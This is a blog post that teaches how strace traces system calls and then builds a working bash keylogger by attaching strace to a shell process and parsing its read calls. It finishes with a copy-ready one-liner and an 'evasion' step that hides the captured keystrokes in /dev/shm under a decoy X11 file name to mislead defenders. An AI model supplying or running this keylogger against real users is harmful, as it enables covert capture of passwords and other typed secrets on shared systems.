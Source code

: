 ```yaml
---
title: Strace - Bash Keylogger
date: 2021-11-17 00:00:00 +0000
categories: [Linux, Tools, Offensive]
tags: [linux, tools, offensive]
toc: true
published: true
---
```

> by **Freddie** | [![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Ffredd%2Eie%2Fposts%2Fstrace-keylogger&title=Views)](https://fredd.ie/posts/strace-keylogger) 

## Introduction

System calls are used by processes to interact with the kernel. 
For example if a process wants to read or write to a file, they must make a system call to do so.

To see this in practice, we'll use `strace`.

`strace` simply traces system calls, and is primarily used for debugging purposes. 

For this demonstration we'll use the basic command echo:
```bash
echo "Freddie" > /tmp/demo.file
```

This command simply writes the string "Freddie" to the temporary file `/tmp/demo.file`

We can use `strace` to trace what system calls are being called during the execution of this command, and to view what is actually going on under the hood.

To do this, we could simply run `strace [command]`, although to glean even more information about the process, we can actually attach the `strace` tool to the parent process.
This allows us to trace the bash redirect (`>`), and is generally more insightful. 


- `strace -p [pid]` attaches to a PID (Process ID)
- `$$` in bash is the current process's PID (or the bash shell)

![](/assets/images/strace/strace-output-1.png)


You can see we have now attached to the process running above.

We can now paste our `echo` command we created above.

If you're following along, prepare to be greeted with an overwhelming amount of information.

If we ignore the irrelevant (for the purposes of this demonstration) system calls made by bash and search for our input we can see two key system calls are made. 

![](/assets/images/strace/strace-output-2.png)


`openat()` - This opens `/tmp/demo.file` with the 0666 permissions.
`write()` - This core system call writes the string `Freddie\n` to the opened file. 

It is worth noting the newline is appended by default by the echo command - we can remove that with `echo -n [string]` if necessary. 


If you have been following the commands, you may have noticed something interesting when tracing the bash process. 

![](/assets/images/strace/strace-output-3.png)

When we type commands into the bash shell above, each character can be seen in both the `read` and `write` system calls. From this simple observation we can process the strace output to create a very rudimentary bash keylogger. 
<br>

### Basic Keylogger

As seen by the previous strace example, a large amount of unimportant system calls are also generated. To filter only the system calls we want, we can use the `-e [syscall]` flag with strace.

We will select the `read` system call to detect all keys entered.

![](/assets/images/strace/strace-output-8.png)

This looks much better. 

Now, let's try to extract input in a more readable format.
This is where the fun(?) begins. 

![](/assets/images/strace/strace-output-7.png)

If we try to pipe our strace output to any text processing commands, nothing.
After a considerable amount of head banging and stack overflow researching, this is due to the fact `strace` writes all it's output to `stderr`. 

![](/assets/images/strace/strace-output-6.png)

With a little more help from stack overflow (I fear any man who can remember regex), each character inside the quotes can be extracted. 

![](/assets/images/strace/strace-output-9.png)

This is when another *slight* issue arises. Due to some linux black magic, if you pipe the output of strace to grep, it is "buffered", and cannot be easily piped into further commands. 
<br>

To get around this technical issue, we can output strace to a file in the background, then read the file and perform operations on that output. 

### Basic Evasion

```bash
strace -e read -p [pid] -o /dev/shm/.X11-unix
```

The above command creates a hidden file in `/dev/shm`. The `/dev/shm` directory lives only in live memory, and is volatile. This makes it great for writing files we don't want to be found, as the folder is wiped on restart. 

`X11` is a linux graphics display, and `.X11-unix` is it's config file.

From experience you should not delete that (the real) file - bad things happens.

This taps into the primal instinct of "bugger I won't delete that again" to prevent defenders from ***not*** deleting our keylogger file >:)

<br>

```bash
strace -e read -p [PID] -o /dev/shm/.X11-unix &
cat /dev/shm/.X11-unix
```


We can background the `strace` command, then read the hidden file in order to parse it correctly.
<br>

### Parsing

Now, all that is needed to be done is to parse the strace output in a readable manner. 

```bash
strace -e read -p 1239419 -o /dev/shm/.X11-unix &
cat /dev/shm/.X11-unix | grep -oa -E '"(.*?)"' | sed 's/^.\(.*\).$/\1/' | tr -d "\n" | sed -e "s/\\\r/\n/g" 
```
<br>

If we wrap the `cat` command using `watch` to continually update it, we can see captured keystrokes in live time.

```bash
watch -n 0.1 'cat [command]'
```
<br>

```bash
strace -e read -p 1239419 -o /dev/shm/.X11-unix &
watch -n 0.1 "cat /dev/shm/.X11-unix | grep -oa -E '\"(.*?)\"' | sed 's/^.\(.*\).$/\1/' | tr -d '\n' | sed -e 's/\\\r/\n/g'"
```

The result:

![](/assets/images/strace/keylogger-in-action.png)

Voila!

The final step to construct our janky bash keylogger, is to concatenate it into a glorious one-liner:

```bash
strace -e read -p [PID] -o /dev/shm/.X11-unix & watch -n 0.1 "cat /dev/shm/.X11-unix | grep -oa -E '\"(.*?)\"' | sed 's/^.\(.*\).$/\1/' | tr -d '\n' | sed -e 's/\\\r/\n/g'"
```

We now have a functioning keylogger, that operates off a commonly installed debugging tool `strace`!
<br>
### Conclusion

If there's any takeaway messages from this absolute abomination of a script and article, it's that there is almost nothing that Stack Overflow and a little glue can't fix™
